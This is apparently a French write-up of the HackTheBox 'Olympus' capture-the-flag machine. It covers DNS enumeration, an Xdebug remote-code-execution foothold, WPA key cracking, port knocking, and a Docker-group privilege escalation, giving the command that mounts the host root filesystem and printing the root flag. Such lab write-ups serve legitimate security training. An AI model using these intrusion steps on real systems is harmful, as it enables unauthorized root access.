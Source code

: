 ```yaml
---
title: "HackTheBox - Olympus"
description: Walkthrough de la machine Olympus sur HackTheBox
---
```

![machine](https://i.imgur.com/Yce6paC.png)

Bonjour à tous, je vous présente mon **write-up** qui porte sur la machine **Olympus** de **HackTheBox** qui était assez cool et qui m'a apprit des choses que je n'avais jamais vu auparavant surtout dans un CTF. Elle n'est pas difficile mais très intéréssante et amusante à root... 😀

# Recon

## Nmap
  
```bash
# Nmap 7.91 scan initiated Fri Jan 29 17:30:12 2021 as: nmap -sC -sV -oA nmap -Pn olympus.htb
Nmap scan report for olympus.htb (10.10.10.83)
Host is up (0.13s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
| dns-nsid: 
|_  bind.version: Bind
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    Bind
80/tcp   open     http    Apache httpd
|_http-server-header: Apache
|_http-title: Crete island - Olympus HTB
2222/tcp open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-City of olympia
| ssh-hostkey: 
|   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
|   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
|_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.91%I=7%D=1/29%Time=60143823%P=x86_64-unknown-linux-gnu%r
SF:(DNSVersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0
SF:\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=1/29%Time=6014381E%P=x86_64-unknown-linux-gnu
SF:%r(NULL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\r\n");
```


Nous pouvons voir que le serveur contient 3 ports ouverts:
1. Port 53 (Serveur DNS)
2. Port 80 (Serveur Web Apache)
3. Port 2222 (Serveur SSH)

### Enumération Serveur DNS

Commencons par intérroger le serveur DNS afin d'afficher l'opcode mnémotechnique **AXFR** avec **dig**. La requete AXFR ne renvoie rien d'intéréssant, cependant un autre nom de domaine peut etre important...

![dig](https://i.imgur.com/IvHQg4g.png)

### Enumération Serveur Web

###### Web Dir

![webdir](https://i.imgur.com/njBhSKT.png)

Rien n'a été trouvé.

###### HTTP Headers

En regardant les headers des requetes et réponses HTTP on sait maintenant que **Xdebug 2.5.5** est en marche sur la machine, ce qui peut permettre aux développeurs de déboguer à distance.

![headers](https://i.imgur.com/UPfH78c.png)

Après quelques recherches, on s'apercoit que cette librairie est touché par une [RCE](https://paper.seebug.org/397/), ce qui va nous permettre d'avoir un premier foothold sur la machine. 😇

# Exploitation

Nous allons utiliser un [script python](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py) déjà présent sur GitHub pour plus de rapidité et facilité.

![rce_script](https://i.imgur.com/qTLDi5R.png)

Nous pouvons maintenant executer des commandes en www-data sur la cible, il ne reste plus qu'a executer un reverse shell. 😎

![rce_shell](https://i.imgur.com/XDHlNPz.png)

Enfin, nous avons un shell sur la machine cible ! 

# Pivot to Olympia container

La présence d'un .dockerenv certifie bien le fait que nous sommes dans un container Docker.

![dockerenv](https://i.imgur.com/KpJtQ8w.png)

Avec une énumération un peu plus appronfondie, nous avons un fichier .cap de capture réseau associé à un .txt de la part de Zeus. Nous allons donc le transférer sur notre machine local afin de l'étudier avec Wireshark.

![presence&transfert_cap](https://i.imgur.com/XLbOkkM.png)

###### Analyse .cap

Plusieurs solutions sont possibles:

1. Regarder les strings qui correspondent à l'hexdump du fichier .cap avec xxd et strings.
2. Ouvrir le fichier via Wireshark

![analyse_cap](https://i.imgur.com/CDPomUA.png)

###### Cracking WPA key

À partir d'un SSID nous pouvons tenter de casser la clé **WPA** de ce AP sans fil avec **aircrack-ng**

![crack_key](https://i.imgur.com/orzve4A.png)

La clé est dans la wordlist rockyou donc ca n'a pas été très difficile pour l'a casser.

J'ai eu des difficultés pour comprendre que après cette étape, nous devons deviner que icarus était en effet un utilisateur du serveur SSH.

![ssh_connexion](https://i.imgur.com/RcgLtEb.png)

On se retrouve une nouvelle fois à l'intérieur d'un container Docker.

# Pivot to Hades / Olympus

Un document .txt dans le répertoire courant révèle un nouveau nom de domaine pour la machine.

Je vais l'ajouter à ma liste de VHOST:

```bash
127.0.0.1  localhost
127.0.1.1  host
10.10.10.83	olympus.htb	ctfolympus.htb
```

Lors de la phase initiale d'énumération, j'avais essayé de faire un transfert de zone mais on avait rien trouvé, avec le nouveau nom de domaine nous aurons peut etre un retour.

![zonetransfer_ctf](https://i.imgur.com/CJuhzRQ.png)

Nous avons des informations en or dans les **records TXT**. 

###### Port Knocking

Durant notre scan nmap, nous avons vu que le port 22 était filtré. 
On obtient maintenant les credentials d'un utilisateur nommé prometheus, ainsi que des numéros pour aller au portail d'Hadès qui sont concrètement les numéros de port sur lesquels nous devons nous connecter pour réaliser un **Port Knocking** afin de se connecter à l'utilisateur prometheus.

Pour cela c'est très simple nous allons executer une boucle for en bash pour automatiser la chose dans le temps imparti:

```bash
for nuts in 3456 8234 62431; do nmap -p $nuts 10.10.10.83; done; ssh prometheus@10.10.10.83
```

Ensuite nous pouvons nous connecter avec le mot de passe obtenu auparavant. 🤠

![port_knocking](https://i.imgur.com/tJ5fJMj.png)

# Privilege Escalation

Pour conclure cette machine plaisante, l'éscalation de privilèges est très simple.
Prometheus est dans le **groupe "docker"**. De plus, le client Docker exige des droits root donc je vais exécuter un shell à partir d'une image du Docker Hub:

```bash
prometheus@olympus:~$ docker run -it olympia bash
root@f388364ddf48:/#
```

À noter que nous pouvons aussi monter la racine du système de fichiers local dans cette image comme le réfère [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell):

```bash
prometheus@olympus:~$ docker run -v /:/mnt --rm -it olympia chroot /mnt bash
root@421e0ac051c7:/# cd /root && ls
root.txt
root@421e0ac051c7:~# cat *
aba486990e2e849e25c23f6e41e5e303
```

Voila nous sommes enfin root ! 🙂
